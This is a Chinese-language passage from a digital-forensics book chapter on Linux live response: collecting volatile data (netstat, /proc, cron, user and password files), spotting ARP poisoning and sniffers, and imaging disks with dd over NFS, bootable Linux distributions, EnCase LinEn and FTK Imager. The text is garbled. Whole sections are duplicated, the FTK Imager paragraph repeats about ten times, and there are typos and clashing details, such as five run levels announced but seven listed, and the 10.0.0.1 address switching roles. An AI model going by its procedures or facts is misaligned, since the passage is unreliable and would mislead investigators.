绕过正常的关闭序列可以完成几项对分析有利的任务。如果入侵者用恶意文件替换了一个或多个涉及关闭过程的文件，那么这些文件显然不会被执行。此外，正在写入的文件或标记为删除的文件将无法正常处理，因此可以被检索和分析。然而，许多关键的易失数据（如网络连接、正在运行的进程和登录用户）将会丢失。因此，这对于法医调查人员来说显然不是理想情况，但在现实世界中这是需要处理的问题。如果你是在系统关闭之前介入的调查人员，你应该强烈建议将系统从网络中切断（拔掉网线），并保持原样，直到在现场进行易失信息收集。顺便提到，用于收集上述数据的命令是：`uptime` 用于确定上次重启的时间，`who` 用于查看当前登录系统的用户，以及 `last` 用于查看最近登录用户的简要历史。

第一轮信息收集步骤侧重于检索管理性信息。通过使用 `uname` 命令，你能够查看机器名、网络节点、处理器类型、操作系统发布版本和操作系统版本。虽然确保你正在正确的机器上进行调查至关重要，但辩护律师在面对计算机法医证据时，会不择手段地试图影响陪审团，认为你收集的信息在某些方面有问题。通过不记录机器的主机名，你的证据将面临不合理的质疑，例如：“我们如何知道这些信息真的来自所涉及的计算机系统？”

可以使用 `date` 命令确定主机的当前系统时间和日期。这部分信息对于调查非常重要，因为本地时间与系统时间可能不同。还需要注意的是，在处理涉及大型客户的案件时，调查范围内的服务器可能物理上位于不同的时区。

> 注意
> 这是一个真实世界中的例子，我最近处理过一个案件，虚拟专用网络（VPN）集中器生成的 VPN 日志存储在不同的物理位置，该位置位于山地时间，而涉及的服务器位于东部时间。这一信息对于案件变得很重要，因为必须对特定用户何时通过 VPN 连接到网络，以及该用户何时访问涉及的服务器进行关联。如果不考虑时区的变化，关联将无法正确建立，从而导致关键证据遗失。

了解哪些连接是连接到主机以及从主机发出的连接，对调查至关重要，可以通过使用 `netstat` 命令配合 `-an` 和 `-rn` 选项来获取。这些信息可以告诉调查人员两点：哪些连接是来自主机的，哪些连接是指向主机的。为了让这些信息具有意义，客户需要为你提供一个标准操作参数的基准。这些信息将允许调查人员排除主机应该建立的连接，并将放在放在不应该建立的连接上。重要的是，不要仅仅因为该连接是指向同一网段的另一台主机就认为它是标准连接。涉及的计算机可能被用作访问客户网络内其他机器的跳板，因此永远不要假设任何事情。让客户告诉你什么是正常的，什么不是正常的。

另一个需要检索的信息是 Shell 历史（shell history）。这些信息可以通过 `history>hostname_cmd_history>` 命令收集。该文件将向你显示自上次重启以来通过 stdin 输入的所有命令，并为调查人员提供丰富的信息。Shell 历史唯一的缺点是，默认情况下它在文件中不使用时间戳，因此无法使用文件本身进行时间范围关联。这说明了在任何可能的地方收集时间戳信息的重要性。Shell 历史可以与 netstat 输出和文件时间戳等信息结合使用，以确定做了什么以及何时做的。同样重要的是记住，Shell 历史只显示使用哪个用户 ID 发送了特定的命令，而不是是哪个用户。


## 实时响应：数据收集 • 第3章

# 第3章 • 实时响应：数据收集

## 实时响应：数据收集 • 第3章

沿着运行进程和文件删除的类似思路，调查人员注意系统启动时计划启动的进程非常重要。可以使用 `chkconfig–list` 命令查看这些条目。该命令的输出显示了哪些进程计划在哪些运行控制（RC）级别启动。为了理解为什么这些信息很重要，你需要了解 Linux 操作系统有五种常见的启动模式，称为运行控制级别：

- 0 停机（Halt）
- 1 单用户模式
- 2 基本多用户模式（不带网络）
- 3 全多用户模式（仅限文本）
- 4 未使用
- 5 全多用户模式（基于图形用户界面 [GUI]）
- 6 重启（Reboot）。


# 第3 章 · 现场响应：数据收集

这些信息有助于判断 RC 脚本中是否被添加了恶意应用程序或恶意软件。结合对 RC 脚本工作原理的理解，你应该能够确定是否有恶意脚本在系统启动时运行，以及在何种 RC 级别下运行。

从时间顺序（cron）日志中收集信息将允许调查人员查看当前计划的任务。存储在 `/etc/crontab` 中的信息与位于 RC 脚本中的信息不同，并且无论系统启动到何种 RC 级别，`cron` 条目都会启动。此外，可以在 `cron` 表中添加条目而无需重启系统即可启动。因此，调查人员需要仔细审查 `crontab` 中的信息，并将其与客户提供的已知良好版本的文件进行对比。默认情况下，cron 日志位于 `/var/log`。由于这些日志非常重要，因为它们记录了对 `crontab` 进行的任何更改、更改时间以及操作人员。

关于用户的信息、用户所属的组以及它们的密码信息在调查过程中具有巨大的价值。这可以告诉你是否发生了某些更改，或者是否添加了未经授权的用户 ID。与这些信息相关的文件有 `/etc/passwd`、`/etc/shadow` 和 `/etc/groups`。这些文件有助于将各种形式日志文件中记录的某些活动与执行这些操作的用户 ID 关联起来。这一点是，不要根据这些信息做出假设，这是许多缺乏经验的调查人员经常犯的错误。当跟踪到某个用户 ID 执行某些操作时，应该记录的唯一取证信息是该用户 ID 本身，而不是用户。说“用户 X 执行了某项操作而不是用户 ID X”是一个简短但错误的表述。作为取证分析师，我们的工作是报告事实，而不带主观点或假设。假设用户与用户 ID 绑定不仅超出我们工作职责的范围，而且通常是一个错误的关联。从逻辑上思考这个问题，如果你是一个黑客并已经渗透了网络，你会创建一个名为“bad_guy”的 ID 吗？不！你会使用一个现有的 ID，或者如果你是一个高明的黑客，你会使用不同的 ID，以便你的行为更难与正常的日常活动区分来。

系统可以访问主机的信息可以在 `/etc/hosts`、`/etc/hosts.equiv=~/hosts`、`/etc/hosts.allow`、`/etc/hosts.deny`、`/etc/syslog.conf`、`/etc/rc`、`/etc/inetd.conf` 中找到。这些文件包含了非常有价值的信息，例如最近连接到目标主机以及各种日志文件的位置。收集这些信息以便后续与客户提供的已知良好列表进行对比以发现异常。

系统的地址解析协议（ARP）缓存是一个表，记录了哪些 IP 地址与哪些媒体访问控制（MAC）地址相关，用于开放系统互连（OSI）二层（数据链路）路由。`arp -a` 命令将显示这些路由条目。这些信息可以判断是否存在永久 ARP 缓存条目，或者是否创建了 ARP 代理。在怀疑存在中间人（MITM）攻击的调查中，这些信息可能很重要。其原理是，攻击者通过将自己的 MAC 地址替换为合法的 IP 地址 `<IP Address X>` 来污染目标系统的 ARP 缓存。然后他会对 IP X 的 ARP 缓存执行同样的操作，将目标系统的 MAC 替换为自己的。结果是，通常相互通信的两个系统现在通过攻击者进行通信。由于二层流量是在堆栈的较低层次进行发送和接收的，因此使用的是 MAC 地址，而 IP 地址从未参与其中。中毒的系统认为它们正在正常通信。两个受损主机之间处理时间的增加微乎其微，当在实验室环境中进行此测试时，这很容易被归为正常的网络瓶颈。因此，应该捕获并检查 ARP 缓存以检查其与已知良好状态的偏差。

许多受损的网络会受到通常被称为“嗅探器（sniffer）”的进一步侵害。嗅探器会捕获通过其所处同一网段的所有流量。要查看主机是否正在运行嗅探器，请执行 `ifconfig` 命令并寻找“PROMISC”字样。这意味着网络接口卡（NIC）正以混杂模式运行，极可能被用作嗅探器。为了理解这个概念，调查人员需要对网络流量如何在现代 TCP 网络中传输有通用的了解。基本上，流量是为特定主机发送出去的，它只是不像像开往目的地的车那样直线行驶。当 TCP 数据包发送时，该网段上的其他所有主机都会看到该数据包并查看它，以确定是否应该与其连接。如果 MAC 地址与数据包地址不匹配，主机将直接丢弃数据包并继续执行之前的操作（注意，这花费不到一个皮秒，即一万亿分之一）。如果数据包寻找的主机没有响应，默认网关将获取数据包并将其发送给路由表中的所有人。这个过程不断重复，直到数据包到达目的地，且主机响应指示其已接收数据包。当主机被设置为嗅探器时，它不再是简单地丢弃不是发给它的数据包，而是捕获并读取它们。这对于使用 Telnet 和文件传输协议（FTP）等协议的网络特别危险，因为这些协议以明文传输流量。嗅探器可以轻松获取带有登录凭据和密码的数据包，然后使用这些受损的 ID 执行未经授权的操作。


## 现场响应：数据收集 • 第3 章

你启动命令时所在的路径。你需要为该文件创建一个 MD5 校验和，然后通过挂载点将其复制到可移动设备或你的取证系统。然而，这并不包括对易失性信息的收集。调查员经常忽略掉一个被忽视的步骤，即 `/proc` 文件系统。

`/proc` 文件系统被称为伪文件系统，因为它并不像它的对应物那样存储在物理介质上。相反，它是 Linux 操作系统内存中 `kcore`（运行内核结构）的表示。该文件系统的数据也体现在 `/dev/mem`（内存）中，但这是一个平面文件，并不一定能实时反映系统状态。由于我们希望获取尽可能接近实时的信息，重点应该放在 `kcore` 上，或者当我们的 `/dev/mem` 备份出现问题时。

由于每个进程都运行在内存的一个“块”，它在 `/proc` 中都会有一个对应的数值条目。原因如下：第一，也是最明显的原因是，调查员需要知道事故发生时（或尽可能接近事故的时间）运行了什么。第二个原因（实际上与第一个原因相关）是，启动运行进程的二进制文件可能会被入侵者删除，但进程仍然会在 `kcore` 中找到。该条目将显示二进制文件的原始路径以及启动进程的二进制文件名称。事实上，这些数据虽然与文件系统解除了链接，但仍然可以通过 `exe` 链接恢复。

通过 `exe` 链接，只要进程仍在运行，调查员就可以恢复被删除的数据。一旦获取了 `kcore` 的副本，可以使用任何一个或多个不同的解析工具通过 `exe` 链接进行 `grep` 搜索。我个人发现 `Textpad³` 非常廉廉（单用户许可仅为 30 美元），并且在文本表达式解析方面有许多有用功能。在 `kcore` 中识别后，可以使用 `cp` 命令从内存中创建运行的二进制文件的副本。

核心取证的另一个重要部分是文件描述符 (`fd`) 子目录。基本上，在 Linux 中，当一个进程运行时运行时，它会执行某些通常涉及访问文件的操作。进程 ID (PID) 的 `fd` 子目录包含了该进程访问过的所有文件列表。当你查看此文件时，它将被分为几行信息。第 0、1 和 2 行被定义为标准输入 (stdin，键盘)、标准输出 (stdout，显示器) 和标准错误 (stderr，由进程定义)。

> ³ www.textpad.com/download/

大多数情况下，`stdin` 是用户在命令行中输入的内容；但事实并非如此。`stdin` 也可以是脚本或其他可执行文件的输出，然后作为输入发送到第二个脚本或可执行文件中。这个过程通常在结果通过 `stdout` 显示给用户之前会重复多次。`stdout` 通常是屏幕，或者在无头服务器（未插显示器）的情况下是串口端口，该串口可以连接到 KVM 切换机、Cisco 本地目录或其他类似的架式设备。与 `stdout` 类似，`stderr` 的默认位置也是屏幕，并且所示（绝大多数情况下如此），`stderr` 由进程定义。例如，Apache 服务器可以将 `stderr` 重定向到 `/var/apache/messages/logs`。

从第 3 行开始，可以找到关于程序正在做什么的信息。这显然因进程而异，并可能需要对 `/dev`（设备）目录和套接字 (sockets) 有一些额外的理解。这些信息不在本项目范围内，但调查员不应忽视它们。

PID 目录下的 `cmdline` 文件也包含一些有用信息。它通常只有单行条目，但该单行包含了启动进程时使用的命令行条目。

作为一个取证笔记，重要的是记住，这些信息可能会被已获得 root 权限的熟练攻击者更改，并且应仅在渗透的背景下使用。例如，在分析过程中，你发现了一个 PID 为 936 的进程，你会查看 `/proc` 并期望找到 936 的条目，如预期的那样，你找到了。在 `/proc` 条目中，你看到 `exe` 链接，你知道这意味着启动进程的二进制文件已取消链接。事实上，这些数据虽然与文件系统解除了链接，但仍然可以通过 `exe` 链接恢复。

通过 `exe` 链接，只要进程仍在运行，调查员就可以恢复被删除的数据。一旦获取了 `kcore` 的副本，可以使用任何一个或多个不同的解析工具通过 `exe` 链接进行 `grep` 搜索。我个人发现 `Textpad³` 非常便宜（单用户许可仅为 30 美元），并且在文本表达式解析方面有许多有用功能。在 `kcore` 中识别后，可以使用 `cp` 命令从内存中创建运行的二进制文件的副本。

核心取证的另一个重要部分是文件描述符 (`fd`) 子目录。基本上，在 Linux 中，当一个进程运行时会执行某些通常涉及访问文件的操作。进程 ID (PID) 的 `fd` 子目录包含了该进程访问过的所有文件列表。当你查看此文件时，它将被分为几行信息。第 0、1 和 2 行被定义为标准输入 (stdin，键盘)、标准输出 (stdout，显示器) 和标准错误 (stderr，由进程定义)。

大多数情况下，`stdin` 是用户在命令行中输入的内容；但事实并非如此。`stdin` 也可以是脚本或其他可执行文件的输出，然后作为输入发送到第二个脚本或可执行文件中。这个过程通常在结果通过 `stdout` 显示给用户之前会重复多次。`stdout` 通常是屏幕，或者在无头服务器（未插显示器）的情况下是串口端口，该串口可以连接到 KVM 切换机、Cisco 本地目录或其他类似的架式设备。与 `stdout` 类似，`stderr` 的默认位置也是屏幕，并且所示（绝大多数情况下如此），`stderr` 由进程定义。例如，Apache 服务器可以将 `stderr` 重定向到 `/var/apache/messages/logs`。

从第 3 行开始，可以找到关于程序正在做什么的信息。这显然因进程而异，并可能需要对 `/dev`（设备）目录和套接字有一些额外的理解。这些信息不在本项目范围内，但调查员不应忽视它们。

PID 目录下的 `cmdline` 文件也包含一些有用信息。它通常只有单行条目，但该单行包含了启动进程时使用的命令行条目。

作为一个取证笔记，重要的是记住，这些信息可能会被已获得 root 权限的熟练攻击者更改，并且应仅在渗透的背景下使用。例如，在分析过程中，你发现了一个 PID 为 936 的进程，你会查看 `/proc` 并期望找到 936 的条目，如预期的那样，你找到了。在 `/proc` 条目中，你看到 `exe` 链接，你知道这意味着启动进程的二进制文件已取消链接。

此时易失信息收集已完成。所有从系统获取的信息都应经过加密并传输到目标介质。

## 获取镜像

### 准备与计划

现在易失信息收集完成后，可以关闭电源，并获取硬盘镜像。我实际上对此发笑，因为这听起来很容易！实际上，这实际上是具有挑战性的阶段之一。这是因为没有两个系统配置是相同的。如果你获取的是一台笔记本电脑或单硬盘系统，那么你就很幸运，而且过程相对轻松。然而，根据我的经验，这种情况下几乎不会发生，因此不应予以预期。相反，要准备好面对各种磁盘阵列 (RAID) 级别、逻辑卷管理 (LVM) 系统、网络附属存储 (NAS)、存储区域网络 (SAN) 或任何变体。

随着存储容量增长和价格下降，调查员应该准备好获取大量数据，并做好计划。


# 第 3 章 • 现场响应：数据采集

原本以为只是带有一个硬盘的服务器，结果到达现场后发现，实际范围是五台服务器，而且 RAID 配置跨越了 15 块硬盘！所以，务必做好充分准备！

## 你的工具箱

在准备获取硬盘镜像时，记住“墨菲定律”（Murphy）无处不在。要预判硬盘获取过程中可能出现的问题，并为可能发生的情况准备多套解决方案。我曾见过一些同事被“认证”可以使用 EnCase 对系统进行镜像制作，如果 EnCase 适用于该特定设施的当前配置，那是没问题的。然而，目前，EnCase（版本 6.6.0.35）无法正确解释许多商业 RAID 控制器。在这种情况下，必须使用其他方法。在 EnCase 失败后，我那可怜的朋友看着我说：“我现在不知道该怎么办……”调查人员绝对需要知道如何使用多种获取工具，因为在某个时刻，“首选工具”将会失效。

## DD

在 Linux 命令行中，获取目标位对（bit-for-bit）镜像的最简单方法是使用 `dd` 或 disk dump 命令。该工具的一个流行变是 `dcfldd`，可以从 sourceforge 下载。该工具的功能与 `dd` 相同，只是在传输过程中会对镜像进行 MD5 校验。这与先用 `dd` 传输镜像再生成 MD5 校验和没有区别，但速度快得多。就像我们在可靠工具箱进行易失数据采集时使用的命令一样，我们将使用 CD 中受信任的 `dd` 版本。

此过程的第一步是将取证笔记本电脑连接到目标系统。根据你处理系统的配置，可以使用交叉网线或标准以太网线。连接完成后，两个系统需要置于同一个子网中。为了让系统能够相互看到并通信，它们必须处于同一个网段。为了方便和一致性，良好的做法是始终使用 10.0.0.1 和 10.0.0.2。在本例中，`.1` 是目标系统，`.2` 是你的取证笔记本电脑。

> ⁴ http://sourceforge.net/project/downloading.php?groupname=biatchux&filename=dcfldd-1.0.tar.gz&use_mirror=super-east

## 现场响应：数据采集 • 第 3 章

在两个系统的命令行上使用以下命令：
- `ifdown eth0`（或你使用的任何以太网适配器）
- `ifconfig eth0 10.0.0.x netmask 255.255.255.0`（每个系统使用不同的数字，子网保持不变）
- `ifup eth0`

一旦设置好 IP 系统，确保每个主机都能 ping 通对方。。确保目标系统已离开公司网络，且取证连接是唯一的可用连接。如果不是，请确保告知客户镜像完整性将受到影响，且后续无法进行诉讼。作为一个取证笔记，这里的过程可能会变得有些棘手。一个好主是使用取证笔记本画出两个系统以及你正在处理的文件系统的简单示意图。这听起来很基础，但脑子里很容易搞混。

在理想世界中，我们要镜像的硬盘应该被称为 `/dev/hda1`，由于我们不知道那个世界里住着谁，你必须手动验证目标硬盘。通常情况下，引导扇位于 `/dev/hda`，而文件系统位于 `/dev/hda1`。如果硬盘是 SCSI 的，只需将 "h" 替换为 "s”（例如 `sda`）。通过执行 `mount` 命令，你将获得已挂载设备列表，包括新创建的挂载点。在列表中，`/dev/hdLN` 应指示主硬盘，其中 "L" 是字母，“N" 是正整数。你也可以查看 `/etc/mtab`、消息日志或 `/proc/partitions` 中的信息。

在目标系统上，创建一个指向本地取证系统的挂载点。在取证系统中，创建一个用于传输 `dd` 镜像的目录。这将是早些挂载的外部硬盘。例如，路径看起来应该像这样：
`/media/disk/IBM/customer_host`

在取证机器上，启动网络文件系统 (NFS) 服务：
- `Service nfs start`（这可能因系统而异，例如 `/etc/init.d/nfs start`）

在取证系统上，导出你的共享：

```
/etc/exports
Shift I（进入插入模式）
添加你的挂载点，在本例中为 /media/disk/IBM/customer_host
ESC（退出当前命令选择），Shift :（编辑退出模式），W（写入），
Q（退出），!（强制写入）
```

## 第 3 章 • 现场响应：数据采集

在取证系统上，验证你的共享已导出：

```
showmount -e
```

在目标系统上，挂载取证共享点：
```
mount -t nfs 10.0.0.1:/media/disk/IBM/customer_host (目标目录)
/mnt/foo (本地目录)
```

（注：后续重复的挂载命令已根据逻辑要求去重）


## 可启动的 nix ISO

有几种不同的可启动 Linux 操作系统可用于持久性数据获取。它们可以在 *ix 或是 Windows 平台*上运行，因为它们完全包含在 CD 中，并且被设计为永远不会接触宿主机文件系统。

这些系统中最受欢迎的有：

- HELIX^5
- Knoppix^6
- BackTrack 2^7
- Penguin Sleuth^8
- INSERT^9

使用哪个可启动操作系统取决于具体情况。由于某些原因，取证系统中没有宿主机版本的 Linux，则可以在本地使用其中任何一个，或者在 VMware 会话中使用。目标机上也是如此。如果调查人员觉得对基于 Linux 的系统更熟悉，或者由于某种原因你通常的 Windows 镜像获取失败了，可以使用这些操作系统中的任何一个。如前所述，做好准备的关键要素之一是在取证工具箱中准备多个可用于收集数据的工具。关键是在实验室环境中对它们进行测试，以确保对操作系统的进行故障排除不会发生在客户现场。

下节提供了所提供的每个可启动操作系统的高级概述，以及调查人员在获取 dd 镜像时可能需要了解任何特殊功能。

## Helix

Helix 1.9a 是基于 Knoppix 的系统，运行 2.6.14-Kanotix-9 Linux 内核。当 HELIX 开始启动过程时，用户将被提示想要启动哪个版本。就本文而言，选择了“GUI”。系统将引导到默认的 XFACE 4.2.3.2 桌面。

> 5 www.e-fense.com/helix/
> 6 www.knopper.net/knoppix-mirrors/index-en.html
> 7 www.livedistro.org/release-announcements/gnu/linux-releases/backtrack
> 8 http://penguinsleuth.org/index.php?option=com_wrapper&Itemid=39
> 9 www.inside-security.de/insert_en.html

Helix 的默认行为是在 GUI 面上填充代表启动期间检测到的每个卷的图标。默认情况下，点击这些图标会将它们以只读方式挂载。为了进行任何证据收集，取证调查人员可以带有 remount 选项发布 mount 命令，“`mount -o remount,rw /media/sdb1`”。

Helix 预装了几个良好的取证和事件响应程序，这些程序也静态链接到了 CD 中。可用于获取镜像的取证工具有 Adepto、Air、LinEN 和 Retriever。用于查看镜像内容以及执行不同搜索函数的取证分析工具有 Autopsy、pyflag、regviewer、hexeditor、xff diff 和 xhfs。事件响应工具包括 Ethereal（现称为 Wireshark）、Clam Anti-Virus 病毒扫描器和 F-prot 病毒扫描器。

使用 Helix 获取镜像的步骤与标准 Linux 镜像过程中使用的步骤无异。关于任何 Linux 发行版内核的一个重要点是，它不支持新技术文件系统（NTFS）。由于明显的原因，用于 NTFS 支持的驱动程序最多是不可靠的，不应该信任。当使用外部驱动器进行镜像存储时，请使用 EXT2 或 EXT3 文件系统格式化驱动器。该过程在本文的“准备目标媒体”部分描述。

## Knoppix

Knoppix 是所有可启动 Linux 操作系统的“母体”。它存在最久，由 Klaus Knopper 奇妙的支持和维护，甚至有几本关于它的书。Knoppix 不是安全或取证 Linux 发行版，而是一个功能完整的操作系统，包含了 Web 浏览器、OpenOffice、游戏和图形编辑功能。

版本 5.1.1 使用 KDE 桌面，基于 Linux 内核 2.6.19。它用户友好且文档齐全；然而，它不包含任何以取证、事件报告或安全为中心的工具。它的加载方式就像你运行默认安装的 Linux 操作系统一样。在选择此版本时应考虑到这一点。

作为当前的 Linux 内核，它加载了所有标准的 Linux 实用程序，像 Helix 一样，如果你引导到宿主机 Linux 操作系统，挂载驱动器和 dd 镜像的过程是相同的。


即使有了当前的内核和所需的 NTFS 支持驱动程序，在写入 NTFS 分区时也应保持谨慎。如果正在处理的案件可能进入诉讼，则应在目标媒体上使用 ext2 或 ext3 文件系统。专业的辩护律师会知道驱动程序并不好，很容易让陪审团对你的证据进行审查。

## BackTrack 2

根据 BackTrack2 主页，10 “BackTrack 是专注于渗透测试的最受欢迎的发行发行版。”无需任何安装，分析平台直接从 CD 启动并在几分钟内即可访问。

它是由两个流行的发行版 Whax 和 Auditor Security 合并而来的。通过合并力量，BackTrack 赢得了巨大的人气，并在 2006 年被 insecure.org 评为第一。安全专业人士以及新手将其视为最喜爱的工具。BackTrack 的新功能包括：

- 更新的内核 2.6.20
- 基于 Broadcom 的无线
- Metasploit 框架
- 重新设计的菜单
- 日语输入
- 通过网络或 USB 驱动启动的能力

即使有了当前的内核和所需的 NTFS 支持驱动程序，在写入 NTFS 分区时也应保持谨慎。如果正在处理的案件可能进入诉讼，则应在目标媒体上使用 ext2 或 ext3 文件系统。专业的辩护律师会知道驱动程序并不好，很容易让陪审团对你的证据进行审查。

## INSERT

内部安全救援工具（INSERT）构建在 2.6.18.5 Linux 内核上，引导至显示文档的 GUI。这是一个非常棒的功能，并且是提到的可启动操作系统中唯一一个提供启动文档的。INSERT 分为网络分析、数据恢复、病毒扫描、计算机取证等部分。所有这些都可以通过右键点击桌面任意位置并选择。

根据文档，INSERT 使用最新的 NTFS 驱动程序支持 NTFS。网页上的文档提供了全面的测试方法，以及结果和证言。INSERT 还为用户提供了从 RAM 下载并安装应用程序的选项。

## EnCase LinEn

EnCase for Linux (LinEn) 被添加到 EnCase 版本 5 中。它类似于 EnCase 的 DOS 版本，包含了更强大、灵活的 Linux 工具的所有优点。（值得注意的是，自版本 6 发布以来，EnCase DOS 版本已不存在。如果用于 Windows 中获取，也可以运行与 EnCase 取证版本相同的 linen 版本。）在开始这种获取方法之前，需要采取一些内部清理步骤。首先，将 LinEn 二进制文件复制到打算作为目标媒体的介质上。记住，Linux 不支持 NTFS 文件系统。


## 第 3 章 现场响应：数据采集

因此，你的目标媒体最好格式化 ext2/ext3 文件系统或 FAT32。为了确保你的二进制文件不会被意外覆盖，请创建一个明确指示你的意图和目录功能的目录，即 `mkdir encase/bin`。这些步骤在《官方 EnCE：EnCase 认证调查员学习指南》（Bunting, S., & Wei, W. 2006）中有更详细的概述。

接下来，需要停止 autofs 守护进程。虽然大多数 Linux 发行版默认没有此守护进程，但你需要通过执行 "service autofs stop" 来确保这一点。

LinEn 可以以命令行模式（运行控制级别 3）或带有 GUI 的模式（运行控制级别 5）运行。为了获得最佳性能，Guidance Software 建议从命令行运行 LinEn。如果你不习惯命令行并想使用 GUI，只需输入 `startup` 即可启动 GUI。

一旦处理了这些事项，你就可以开始采集过程了。启动目标机器并以 root 用户身份登录。接下来，使用 "mount" 命令验证你连接的媒体。该过程在论文的“挂载驱动器”部分有更详细的描述。现在，调查人员可以找到源和目标媒体，在必要时挂载它们，切换到目标媒体目录，并创建一个存储 encase 镜像的目录。如果你想创建一个具有更多层级的目录，只需使用 "/" 分隔每个目录。导航到你放置 LinEn 的目录。记住，在我们的示例中我们使用了 `encase/bin`。你可以通过将目录添加到路径中来跳过此步骤。启动 LinEn。如果你与二进制文件在同一目录下，通过输入 `./linen` 完成。如果你修改了路径，可以从任何目录直接输入 `linen`。如果你遇到权限被访问的错误，你可能需要对二进制文件进行修改（chmod）。这通过在二进制文件所在的目录（如 `encase/bin`）下输入 `chmod 777 linen` 来。LinEn 将启动并显示一个类似于 DOS 的界面。

要开始镜像采集，按 A 键或使用 tab 键移动选择器直到 "Acquire" 高亮显示，然后按 ENTER。你将收到提示“Choose a drive”；这是你的源或可疑媒体。选择你的设备并按 ENTER。接下来，选择证据文件的路径。你需要提供完整路径，因此包含挂载点。例如，它可能像这样：`/mnt/target`。记住，我们为此创建了一个目录，名为 `<casename>/drivenumber>/evidence>`。例如，完整路径可能像这样：`/mnt/target/encase/image_files/BigBank/drive001/evidence`。更改默认


## 现场响应：数据采集 · 第 3 章

块大小 2000（与 DOS 不同，Linux 不受 64 扇限制）。一旦输入了这个粒度，LinEn 将开始采集过程。

你可能也或需要通过网线采集镜像。如果是这种情况，物理设置与上述相同，但有几个额外步骤。使用交叉网线连接源机器和目标机器。在源机器（Linux）上，使用不可路由地址配置 IP 地址，例如 10.0.0.1。在目标机器（Windows）上，导航到 开始 | 设置 | 控制面板 | 网络连接。以太网适配器正被交叉线使用，点击它并选择 属性。会弹出一个菜单。在中间部分“此连接使用以下项目：[sic]”，滚动到最后并选择 TCP/IP，点击属性。选择标记为“使用 IP 地址”的单选按钮，输入 10.0.0.2，掩码为 255.255.255.0。DNS 字段可以留空，因为不需要。重启 LinEn 并启动服务器。重启你 Windows 机器上的 EnCase，并点击 EnCase 工具栏上的“添加设备”。在弹出菜单中，在“网络”旁边打上蓝色对钩并点击“下一步”，然后选择你想要检查的设备（假设只有一个），点击“下一步”，然后点击“完成”。这只会预览驱动器信息。

要采集正在预览的设备，在左窗格中，在采集镜像后右键点击带有镜像的设备。在这种情况下，选择标记为 Acquire（采集）的单选按钮。在弹出菜单中，指定让 EnCase 执行“替换源设备”的位置。取消勾选所有其他选项。使用下一个选项弹出菜单输入案件和镜像信息，并选择所需的压缩。记住，压缩将极大减慢成像过程。将文件段大小更改为 2000（或 2 GB）。确保你的目标设备和目录的路径正确，并点击完成。采集现在将开始。

## FTK Imager

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。


## 第 3 章 现场响应：数据采集

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

要使用 FTK 创建磁盘镜像，只需选择文件（File）、新磁盘镜像（New Disk Image），就会弹出一个窗口询问你的源设备。这可以是物理设备、逻辑设备或文件夹。

由 Access Data 开发的 Forensic Tool Kit (FTK) Imager 是一种基于 GUI 的采集软件，提供两个版本：FTK Imager 和 FTK Imager Lite，它们都高效且易于使用。

